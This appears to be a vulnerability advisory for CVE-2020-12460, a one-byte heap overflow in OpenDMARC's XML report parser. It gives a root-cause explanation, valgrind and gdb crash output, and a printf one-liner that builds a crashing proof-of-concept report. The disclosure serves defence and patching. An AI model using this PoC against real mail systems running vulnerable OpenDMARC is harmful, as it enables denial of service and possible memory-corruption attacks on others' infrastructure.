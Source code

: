 # CVE-2020-12460: Heap-overflow in OpenDMARC

## Summary
OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1 has improper null termination in the function opendmarc_xml_parse that can result in a one-byte heap overflow in opendmarc_xml when parsing a specially crafted DMARC aggregate report. This can cause remote memory corruption when a '\0' byte overwrites the heap metadata of the next chunk and its PREV_INUSE flag [1].

## Details

There is a memory corruption vulnerability in `opendmarc_xml()` of libopendmarc during parsing of DMARC aggregate reports. The versions affected are OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1.

The root cause is improper null termination. The function `opendmarc_xml_parse()` does not explicitly add a null terminator (`'\0'`) to the buffer holding the XML data after reading the contents from a report file. This can cause an off-by-one error in `opendmarc_xml()` in certain cases depending on the report file, resulting in a one-byte heap overflow.

A null byte write occurs during the parsing at `opendmarc_xml.c:171`, `*sp = '\0'`. Eventually, during parsing of a specially crafted report, this null byte will overflow to the next chunk on the heap, overwriting the heap metadata, as indicated by the following valgrind output.

```
==4014== Invalid write of size 1
==4014==    at 0x401223: opendmarc_xml (opendmarc_xml.c:171)
==4014==    by 0x4020DC: opendmarc_xml_parse (opendmarc_xml.c:614)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
==4014==  Address 0x5204478 is 0 bytes after a block of size 1,080 alloc'd
==4014==    at 0x4C2FB55: calloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==4014==    by 0x402070: opendmarc_xml_parse (opendmarc_xml.c:575)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
```

The size field and the least significant bits used as flags are overwritten in the metadata. The relevant flag for this vulnerability is the bit indicating 'previous chunk in use', known as `PREV_INUSE` which will be set to zero and determines if the previous chunk (storing `bufp`) is free. When the buffer is later free'd at `opendmarc_xml.c:616`, `(void) free(bufp)` - a crash occurs as `bufp` is listed as not used.

```
(gdb) run poc.xml
Starting program: /home/peppe/Downloads/test poc.xml
*** Error in `/home/peppe/Downloads/test': double free or corruption (!prev): 0x0000000000605010 ***
.
.
Program received signal SIGABRT, Aborted.
0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff7a4402a in __GI_abort () at abort.c:89
#2  0x00007ffff7a847ea in __libc_message (do_abort=do_abort@entry=2, fmt=fmt@entry=0x7ffff7b9ded8 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff7a8d37a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>, str=0x7ffff7b9e008 "double free or corruption (!prev)", action=3) at malloc.c:5006
#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=0) at malloc.c:3867
#5  0x00007ffff7a9153c in __GI___libc_free (mem=<optimized out>) at malloc.c:2968
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
#7  0x0000000000400d24 in main ()
(gdb) frame 6
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
616		(void) free(bufp);
(gdb) p bufp
$1 = 0x605010 "<feedback"
(gdb) 
```

A remote attacker could provide a specially crafted report that is parsed by this library, causing a denial of service. It could possibly lead to code execution depending on how libopendmarc is used and integrated into the application, in particular if the opendmarc_xml function is used explicitly without calling opendmarc_xml_parse and with input that is not null-terminated.

A DMARC aggregate report that triggers this vulnerability can be generated using the following commands:

```
printf '<feedback></feedback>' > poc.xml; printf 'A%.0s' {1..1053} >> poc.xml; printf '<begin' >> poc.xml
```

A C program that calls `opendmarc_xml_parse` with the poc above is enough to trigger the vulnerability.

## Timeline
- 2020-07 - Reported to maintainers [2]

## References

[1] CVE-2020-12460 - https://nvd.nist.gov/vuln/detail/CVE-2020-12460

[2] Memory corruption in opendmarc_xml() - https://github.com/trusteddomainproject/OpenDMARC/issues/64
